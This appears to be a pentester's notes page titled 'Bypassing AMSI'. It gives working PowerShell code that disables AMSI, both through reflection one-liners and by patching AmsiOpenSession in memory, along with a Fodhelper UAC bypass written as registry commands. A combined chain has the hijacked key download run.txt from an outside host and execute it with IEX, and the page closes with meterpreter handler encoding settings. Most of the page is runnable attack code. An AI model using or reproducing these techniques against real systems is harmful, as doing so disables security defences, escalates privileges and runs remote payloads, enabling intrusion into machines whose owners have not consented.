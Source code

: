 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: AV_Bypass
---
```



<span style="font-size: 35px; color:red"><b>Bypassing AMSI</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Powershell OneLiner</b></span>
Simple script to deactivate AMSI corrupting its context structure (replacing the first 4 Bytes "AMSI" with 0):
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
OR
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

You can test - from Powershell - that it works typing <span style="color:red">'amsiUtils'</span>, <span style="color:red">'amsicontext'</span> or <span style="color:red">'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'</span> or <span style="color:red">'invoke-mimikatz'</span> in powershell and see if any of these gets flagged.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Binary Patching</b></span>
Directly changing the first instruction <span style="color:red">test RDX,RDX</span> to <span style="color:red">XOR RAX,RAX</span>, forcing the execution flow to the error branch, which will disable AMSI.

Attack:
1) Obtain the memory address of AMSIOpenSession
2) Modify the memory permission where AMSIOpenSession is located
3) Modify the 3 bytes at that location

```powershell
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)

$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)

$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Fodhelper UAC Bypass</b></span>
Fodhelper.exe is an application that helps managing optional features like region-specific keyboard settings.
It's vulnerable since it deals directly with the current user's registry.

EXPLOIT in 3 steps:
```powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe –Force
```

```powershell
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
```

```powershell
C:\Windows\System32\fodhelper.exe
```

MSFconsole has an exploit for this to increase a revshell (that you already spawned) to HIGH integrity :  `exploit/windows/local/bypassuac_fodhelper`
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>FodHelper UAC Bypass + AMSI Bypass</b></span>
To bypass AMSI using the exploit against FodHelper, run these commands (the <span style="color:red">run.txt</span> contains the Powershell Shellcode Runner with AMSI bypass at the beginning of it - or the longer one, up to you):
```powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX" -Force
```

```powershell
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
```

```powershell
C:\Windows\System32\fodhelper.exe
```

And get the shell using msfconsole. Configure the multi/handler (meterpreter) like so:
```shell
set EnableStageEncoding true
set StageEncoder x64/zutto_dekiru
```

